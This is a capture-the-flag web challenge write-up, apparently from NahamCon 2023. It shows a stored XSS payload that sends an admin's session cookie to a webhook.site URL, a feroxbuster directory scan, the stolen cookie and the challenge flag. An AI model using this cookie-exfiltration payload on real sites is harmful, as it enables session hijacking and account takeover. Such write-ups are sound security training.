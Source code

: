 >Author: @congon4tor#2334  
>
>If you love Star Wars as much as I do you need to check out this blog!
---------------------
Firstly comes logging in. After trying and failing a few easy guesses like admin:admin, I made my own account with username `asdf`. Upon entering we are led to a blog post:

![Pasted image 20230615231203.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615231203.png)

We see a comment section and not much else, so of course we have to check for XSS
```
<script>alert('XSS');</script>
```

![Pasted image 20230615231619.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615231619.png)

Our XSS was a hit, but also we can see notice that an admin should review our comment. This setup seems prime for a cookie hijack through XSS. I will use webhook.site to receive the cookie request.
```
<script>
document.write(``'<img src="https://webhook.site/538e246b-2888-428c-b201-75331cefc008?c='``+document.cookie+``'" />'``);
</script>
```

This XSS generates an image pointing to my webhook.site link, and adds the user's `document.cookie` to the end of the url. And so, when a victim views this page, the image will attempt to be loaded by visiting my webhook. The webhook will log the request information and with it, I will be able to see whatever cookies are associated with the victim's session.

![Pasted image 20230615230950.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615230950.png)
Indeed we see a cookie: `x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIvRmQ.20AcIM9F-Kg8q21j8Pc4mVl2aO0`

By substituting our X-wing cookie for this one, we become admin. Revisiting the page, nothing has changed. After a quick directory enumeration, we can find a new page by visiting `/admin`. This is pretty guessable, although I do concede to running `feroxbuster` to point it out to me:
```bash
feroxbuster -u http://challenge.nahamcon.com:30413/
<...SNIP...>
02      GET        4l       28w      303c http://challenge.nahamcon.com:30413/admin
<...SNIP...>
```

When visiting /admin while having the token, we can find the flag.

![Pasted image 20230615230911.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615230911.png)

`flag{a538c88890d45a382e44dfd00296a99b}`

- Author : Tien
